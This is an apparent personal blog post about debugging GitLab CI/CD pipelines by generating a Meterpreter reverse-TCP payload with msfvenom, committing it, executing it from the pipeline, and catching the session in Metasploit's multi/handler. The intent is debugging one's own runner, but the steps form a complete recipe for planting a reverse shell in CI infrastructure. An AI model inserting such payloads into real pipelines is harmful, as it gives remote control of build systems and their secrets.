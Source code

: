 #+title: Debug GitLab CI/CD Pipelines with Metasploit
#+Date: 2023-07-28
#+Draft: false
#+Tags[]: devops gitlab-ci gitlab metasploit
#+PROPERTY: header-args :eval never-export

Many individuals frequently encounter difficulties when troubleshooting their
pipelines. Often, the common approach to debugging these pipelines involves
employing a trial and error methodology. However, a superior solution exists
that is both more sophisticated and efficient.

By injecting code between the commands one wishes to troubleshoot, and then
having full environment access along with the tools required to perform tests
and analysis represents the ideal scenario. Considering the requirements:

  - Direct connection to the runner instance is not always possible, so the
    runner must connect to your server.
  - Runners can be executed inside a cluster (Kubernetes, Docker Swarm, AWS
    ECS, etc.), so the tool and connection method must accommodate this.
  - The injected binary must have the minimum amount of dependencies possible,
    requiring no further setup.
  - The binary must include tooling to facilitate the troubleshooting process,
    such as tools for downloading, uploading and manipulating files,
    troubleshooting network connections and connectivity issues, and handling
    processes.

This concept can be reused with other CI/CD tools, such as GitHub Actions,
Travis CI, and Jenkins.

** Meterpreter
Meterpreter is a powerful and versatile post-exploitation tool widely used in
the field of cybersecurity. Developed as part of the Metasploit Framework,
Meterpreter is designed to provide remote access and control over compromised
systems, allowing penetration testers and security professionals to interact
with target machines seamlessly.

Meterpreter fulfills all our requirements: it operates using several
connection methods including reverse connection, can be generated without any
dependencies, and includes a comprehensive set of tooling which we can leverage
to debug CI/CD pipelines.

* Generate a Meterpreter payload
The first step in this demonstration is to generate the binary payload to be
used. Once Metasploit is installed, simply run:

#+begin_src bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > meterpreter.elf
#+end_src

To facilitate the process, on systems with multiple network cards, it is
common for the first one to be a =loopback= interface. The bash function below
gets the first IP address after the =loopback= interface:

#+begin_src bash
function msfvenom-linux-meterpreter-default() {
    local LHOST="${1:-$(ip addr show | grep -o "inet [0-9]*\.[0-9]*\.[0-9]*\.[0-9]*" | grep -o "[0-9]*\.[0-9]*\.[0-9]*\.[0-9]*" | head -2 | tail -1)}"
    local LPORT="${2:-4444}"
    echo "[+] Creating a reverse connect meterpreter payload for ${LHOST}:${LPORT}"
    msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=${LHOST} LPORT=${LPORT} -f elf > meterpreter.elf
    echo "[+] Result saved to meterpreter.elf"
}
#+end_src

Nothing more is required to create a Meterpreter binary. If you run the
function =msfvenom-linux-meterpreter-default= without any parameter, the first
network interface after =loopback= will be used, or you can specify the IP
address which the Meterpreter payload will use as the first parameter. The
second parameter is the port to which it will connect; the default is =4444= if
no port is set.

We can easily check if the resulting binary is statically linked:

#+begin_src bash :results verbatim
ldd ../../meterprefer.elf
#+end_src

#+RESULTS:
: 	statically linked

Other networking aspects should also be taken into consideration. In case you
are behind a firewall, opening the respective ports and configuring proper
forwarding is required. If you are using =NixOS=, you will need to setup your
local firewall as follows:

#+begin_src nix
networking.firewall = {
  enable = true;
  allowedTCPPorts = [ 4444 ];
};
#+end_src

** Serving the binary
There are three main ways in which the binary can be injected into the CI/CD
pipeline:
- Add it directly to the git, commit and push it.
- Encode it with base64 and inject it into the pipeline definition, and during
  runtime convert it to a binary.
- Serve it over the network and download it as a step on the pipeline.

For the sake of simplicity, we will proceed by adding it to the repository as
a binary file.

* Executing
Before proceeding with the pipeline, the next step is to setup Metasploit and
listen for the connection from the binary. Start =msfconsole= on your platform
and use the following commands, adjusting them based on the arguments used when
creating the binary:

#+begin_src
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.15.22
LHOST => 192.168.15.22
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) >
[*] Started reverse TCP handler on 192.168.15.22:4444
#+end_src

* GitLab Runner Job Definition
For demonstrating this technique, a simple pipeline like the one below can be
used to attest the functionality and capabilities described in this document.
Add the following file to your repository, commit and push it.

#+begin_src yaml
stages:
  - run

Run:
  stage: run
  script:
    - chmod +x meterpreter.elf
    - ./meterpreter.elf
#+end_src

If =CI/CD= is not shown on the left menu, select =Settings > General=. On this
page expand =Visibility, project features, permissions=, in the =Repository=
section, turn on =CI/CD=, then select Save changes. On real pipelines you may
be interested in using =before_script= to execute the injected binary:

#+begin_src yaml
.start_debug_session:
  before_script:
    - chmod +x meterpreter.elf
    - ./meterpreter.elf

my_failing_job:
  extends: .start_debug_session
  script:
    - pytest

#+end_src

* Shell
After putting all the pieces together and triggering the pipeline, you should
be presented with similar messages on your Metasploit terminal.

#+begin_example
[*] Meterpreter session 1 opened (192.168.15.22:4444 -> 192.168.15.22:33800) at 2023-07-28 23:46:41 +0200

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information              Connection
  --  ----  ----                   -----------              ----------
  1         meterpreter x64/linux  rafael @ localhost  192.168.15.22:4444 -> 192.168.15.22:33800 (192.16
                                                            8.15.22)
#+end_example

You can use =sessions -i= to interact with a connection, and =Ctrl+Z= to stop
interacting with it without killing it. Once the connection is in place, you
have a full shell, along with many other useful commands which you can use to
debug your pipelines:

#+begin_example
meterpreter > ls
Listing: /var/lib/private/gitlab-runner/builds/s5L862kM/0/rafael/test-debug-gitlab
===============================================================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
040755/rwxr-xr-x  86       dir   2023-07-29 02:26:42 +0200  .git
100644/rw-r--r--  130      fil   2023-07-29 02:26:41 +0200  .gitlab-ci.yml
100644/rw-r--r--  6225     fil   2023-07-29 02:25:31 +0200  README.md
100755/rwxr-xr-x  1038520  fil   2023-07-29 02:26:15 +0200  meterpreter.elf
#+end_example

** System commands
#+begin_example
Command       Description
-------       -----------
execute       Execute a command
getenv        Get one or more environment variable values
getpid        Get the current process identifier
getuid        Get the user that the server is running as
kill          Terminate a process
localtime     Displays the target system local date and time
pgrep         Filter processes by name
pkill         Terminate processes by name
ps            List running processes
shell         Drop into a system command shell
suspend       Suspends or resumes a list of processes
sysinfo       Gets information about the remote system, such as OS
#+end_example
** File commands
#+begin_example
Command       Description
-------       -----------
cat           Read the contents of a file to the screen
cd            Change directory
checksum      Retrieve the checksum of a file
chmod         Change the permissions of a file
cp            Copy source to destination
del           Delete the specified file
dir           List files (alias for ls)
download      Download a file or directory
edit          Edit a file
getlwd        Print local working directory
getwd         Print working directory
lcat          Read the contents of a local file to the screen
lcd           Change local working directory
lls           List local files
lpwd          Print local working directory
ls            List files
mkdir         Make directory
mv            Move source to destination
pwd           Print working directory
rm            Delete the specified file
rmdir         Remove directory
search        Search for files
upload        Upload a file or directory
#+end_example
** Networking commands

#+begin_example
Command       Description
-------       -----------
arp           Display the host ARP cache
getproxy      Display the current proxy configuration
ifconfig      Display interfaces
ipconfig      Display interfaces
netstat       Display the network connections
portfwd       Forward a local port to a remote service
resolve       Resolve a set of host names on the target
route         View and modify the routing table
#+end_example

* References
- [[https://docs.gitlab.com/ee/ci/yaml/][GitLab CI reference]]
